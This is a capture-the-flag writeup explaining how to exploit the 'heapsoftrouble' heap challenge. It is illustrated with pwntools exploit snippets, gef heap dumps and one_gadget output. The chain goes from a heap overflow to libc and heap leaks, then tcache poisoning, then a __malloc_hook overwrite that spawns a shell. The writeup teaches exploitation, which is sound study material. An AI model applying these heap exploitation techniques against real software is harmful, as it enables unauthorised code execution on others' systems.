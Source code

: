 # Matrix Management System 'heapsoftrouble' Writeup 

This challenge provides a menu with a selection of options, a somewhat common pattern in heap challenges.

This is the most difficult pwn challenge, so this writeup will not cover memory corruption basics or details about how to reverse engineer it. The binary is not stripped, which makes understanding it a little easier. 

The overline of the solve is:
 - Create a chunk in the small bin so that the libc address is on the heap
 - Increase name length with blind overwrite
 - Use increased name length to leak heap addresses and libc address.
 - Use heap leak+overwrite to gain arbitrary write: corrupt a tcache chunk.
 - Use libc write to overwrite `__malloc_hook` with a onegadget

When reversing the binary, one of the first things we notice is a function called 'silentOverflow' that a secret input of '7' will call. That function allocates a new object on the heap, and writes up to 80 characters to it.

The other choices are:
 1 - create: Create a new matrix with a specific name and population.
 2 - delete: Delete a matrix by freeing it's name, then it's address.
 3 - configure: Change the population of a matrix
 4 - printMatrix: Prints a matrix's name, population, and power output. It uses the length field to determine how many bytes of the name to print.
 5 - printAllMatrixes: Loops through all matrixes and calls printMatrix on each non-null one.
 6 - exit: calls exit()

The bug in this program is relatively obvious: `silentOverflow`, but exploitation is not as simple. We will need to first use the overflow to leak libc, then we will need to find a way to gain code execution, probably by writing to `__malloc_hook`.

When we start up the program, it asks for a name. Any name that is not `Neo` will get us past this check.

In order to get a leak, we can start by attempting to overwrite the `length` field of an existing matrix. To do that, we need to overflow into some buffer before the matrix we wish to overwrite. If we free (or delete) a matrix, we can overflow into the next matrix, if we can get the freed chunk allocated with silentOverflow.

When creating a matrix, the name is allocated first, then the matrix is allocated. This means that the chunk at the former name of a previous matrix will be the closest to the next matrix, making an overflow easier. Since the name is freed first, then the matrix, after deleting 'Matrix #4', the memory layout and freelist will look something like:

```
0x1 Matrix #4
0x2 Matrix #4 Name
0x3 Matrix #5
0x4 Matrix #5 Name

free(0x2: Matrix #4 Name)
free(0x1: Matrix #4)

0x1 -> 0x2 -> Other free chunks
```

This means that we need to allocate one chunk before we can overflow into Matrix #5. To do that, we can just call `silentOverflow` with a non-overflowing short input.

```
deleteMatrix(b'Matrix #4')
silentOverflow(b'A')
silentOverflow(b'A\x00' + b'A' * 46 + p64(population) + p64(poweroutput) + b'\x00\x00')
```

We can determine the offset using pwntools.cyclic, breaking after silentOverflow, and using gef's `heap bins` command to determine the offset of the chunk. This writeup will not go into details into specifics for offset calculation.

The matrix struct is as follows:
```c
struct matrix {
    long int population;
    long int poweroutput;
    int namelen;
    char * name;
};
```

Noteably, a new line will always be written at the end of silentOverflow. the above input to silentOverflow will overflow '\x00\x00\x0a' into the size, which will set the size to 0xa0000 or 655360, which will dump a ton of the heap.

Next, we need to ensure that a libc address is somewhere on the heap when we leak it. Interestingly, the first small bin allocated will contain a pointer to a location in libc. The problem is that smallbins need to be larger than the fastbin sizes, and a size that large is never directly allocated by this program, and the tcache must be full before a smallbin will even be allocated. The first problem is resolved by `getline`. That function, given a larger input, will allocate a larger size if needed. The second problem can be resolved if we can free a chunk without it being reallocated.

There is a way to do this. If we create a matrix, with a name of a long enough length name (0x80), the size of the chunk for the name will be increased by getline. Then when it is freed, it will be added to a tcache bin. It turns out, that since `name` is already allocated with a smaller size, even when its length is increased with `getline`, it will not use the larger freed chunk.
```c
char * name = malloc(buffsize);
int len = getline(&name, &buffsize, stdin);
```

We can demonstrate this in GEF by repeatedly creating and deleting a matrix with a long name, or even just searching for a matrix with a long name. Each tcache bin can hold up to 7 chunks, so we must create and free the matrix 8 times, with code like the following:
```python
deleteMatrix(b'Matrix #1')  # Delete a matrix, so that we can create a new one in its spot
for i in range(8):
    createMatrix(b'A' * 0x80, b'1')
    deleteMatrix(b'A' * 0x80)
```

If we break after the loop in gdb, and print the freelists, we get:
```
gef➤  heap bins
───────────────────────────────────── Tcachebins for arena 0x7ff4f34709e0 ─────────────────────────────────────
Tcachebins[idx=1, size=0x30] count=3  ←  Chunk(addr=0x5602f0348310, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x5602f0348340, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x5602f03488b0, size=0x30, flags=PREV_INUSE) 
Tcachebins[idx=7, size=0x90] count=7  ←  Chunk(addr=0x5602f0348cd0, size=0x90, flags=)  ←  Chunk(addr=0x5602f0348b20, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x5602f0348bb0, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x5602f0348a00, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x5602f0348a90, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x5602f03488e0, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x5602f0348970, size=0x90, flags=PREV_INUSE)
────────────────────────────────────── Fastbins for arena 0x7ff4f34709e0 ──────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
───────────────────────────────────── Unsorted Bin for arena 'main_arena' ─────────────────────────────────────
[+] unsorted_bins[0]: fw=0x5602f0348c30, bk=0x5602f0348c30
 →   Chunk(addr=0x5602f0348c40, size=0x90, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
────────────────────────────────────── Small Bins for arena 'main_arena' ──────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
────────────────────────────────────── Large Bins for arena 'main_arena' ──────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```

`Tcachebins[idx=7]` has been filled, since its count is `7`. The chunk that gef believes is in `unsorted_bins` is what we want to leak - it should have a libc address in it. We can check this with GEF:
```
gef➤  heap chunk 0x5602f0348c40
Chunk(addr=0x5602f0348c40, size=0x90, flags=PREV_INUSE)
Chunk size: 144 (0x90)
Usable size: 136 (0x88)
Previous chunk size: 0 (0x0)
PREV_INUSE flag: On
IS_MMAPPED flag: Off
NON_MAIN_ARENA flag: Off

Forward pointer: 0x7ff4f3470a40
Backward pointer: 0x7ff4f3470a40
```

Its forward and backwards pointers do point to an address within libc, as expected.

If we use our previously discovered leak after setting up the heap like this, we now have access to libc. Specific offset calculation will not be discussed here, but using `info proc mappings` in gdb can be helpful to see where libc loaded is in memory.

Next up, we need to gain the ability to write a onegadget to `__malloc_hook`, which is a function pointer that will be called every time `malloc` is called.

Since the tcache does not have strict protections, we should be able to overflow into the `fd` pointer of a free tcache chunk, write an address we want to write to there, and allocate that chunk, and our fake chunk, gaining the ability to write to an arbitrary address.

```python
deleteMatrix("Matrix #7")  # free(matrix7name); free(matrix7)
# Overflow from the previous address of Matrix #7 into the now free address of Matrix #7's name.
silentOverflow(b'A\x00' + b'A' * 38 + p64(0x31) + p64(targetAddr)) # 0x31 is the size/prev in use bit of the corrupted chunk
```

Then we can allocate our corrupted chunk, and the next allocated chunk will be at the target address (`__malloc_hook` in this case):
```
silentOverflow(b'A')
silentOverflow(b'A\x00' + p64(onegadget))
```

The target address is actually two bytes before `__malloc_hook`, because `silentOverflow` writes a null byte right before the last null byte in the input. This way, we can start the input with `b'A\x00'`, and not corrupt the address of the one gadget.

Finding the one gadget is relatively straightforward:
```
━━┫ one_gadget heapsoftrouble.libc         
0xc751a execve("/bin/sh", r13, r12)
constraints:
  [r13] == NULL || r13 == NULL
  [r12] == NULL || r12 == NULL

0xc751d execve("/bin/sh", r13, rdx)
constraints:
  [r13] == NULL || r13 == NULL
  [rdx] == NULL || rdx == NULL

0xc7520 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

Finally, we can call something that will call malloc, assuming that we can meet the constraints on our onegadget. In our case after trying a few gadgets and options, I settled on the gadget at `0xc751d`, with the next option chosen '4' or printMatrix.

See `solve.py` for a full and correct implementation of the solution.
